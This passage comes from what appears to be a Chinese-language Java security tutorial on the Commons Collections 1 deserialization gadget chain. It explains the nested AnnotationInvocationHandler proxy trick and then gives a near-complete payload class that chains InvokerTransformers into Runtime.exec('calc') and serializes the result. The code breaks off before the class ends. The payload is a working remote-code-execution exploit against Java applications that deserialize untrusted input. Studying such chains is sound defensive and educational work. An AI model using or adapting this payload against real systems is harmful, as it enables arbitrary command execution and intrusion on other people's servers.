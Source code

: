 ```Java
InvocationHandler handler = (InvocationHandler) constructor.newInstance(Retention.class, outerMap);

Map<Object, Object> proxyMap = (Map) Proxy.newProxyInstance(Map.class.getClassLoader(), new Class[] {Map.class}, handler);
proxyMap.entrySet(); // 测试任意无参方法
```

成功弹计算器，那么再套一层 `AnnotationInvocationHandler` ，达成的结果就是

反序列化时： `AIH_2.memberValues` -> `proxyMap` ，调用 `proxyMap.entrySet()` ，方法被转发到 `AIH_1.invoke()` ，调用无参方法，调用 `LazyMap.get()` ，触发链子

### Payload

```java
package javaSec.Ser;

import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.map.LazyMap;

import java.io.*;
import java.lang.annotation.Retention;
import java.lang.reflect.Constructor;
import java.lang.reflect.InvocationHandler;
import java.lang.reflect.Proxy;
import java.util.HashMap;
import java.util.Map;

public class CommonsColletions1 {
    public static void main(String[] args) throws Exception {
        Transformer[] transformers = new Transformer[] {
                new ConstantTransformer(Runtime.class),
                new InvokerTransformer("getMethod", new Class[] {String.class, Class[].class}, new Object[] {"getRuntime", new Class[0]}),
                new InvokerTransformer("invoke", new Class[] {Object.class, Object[].class}, new Object[] {null, new Object[0]}),
                new InvokerTransformer("exec", new Class[] {String.class}, new String[] {"calc"}),
        };

        Transformer transformerChain = new ChainedTransformer(transformers);

        Map<Object, Object> innerMap = new HashMap<>();
        Map<Object, Object> outerMap = LazyMap.decorate(innerMap, transformerChain);

        Class clazz = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");
        Constructor constructor = clazz.getDeclaredConstructor(Class.class, Map.class);
        constructor.setAccessible(true);
        InvocationHandler handler = (InvocationHandler) constructor.newInstance(Retention.class, outerMap);

        Map<Object, Object> proxyMap = (Map) Proxy.newProxyInstance(Map.class.getClassLoader(), new Class[] {Map.class}, handler);
        handler = (InvocationHandler) constructor.newInstance(Retention.class, proxyMap);

        ByteArrayOutputStream baos = new ByteArrayOutputStream();
        ObjectOutputStream oos = new ObjectOutputStream(baos);
        oos.writeObject(handler);
        oos.close();

        ByteArrayInputStream bais = new ByteArrayInputStream(baos.toByteArray());
        ObjectInputStream ois = new ObjectInputStream(bais);
```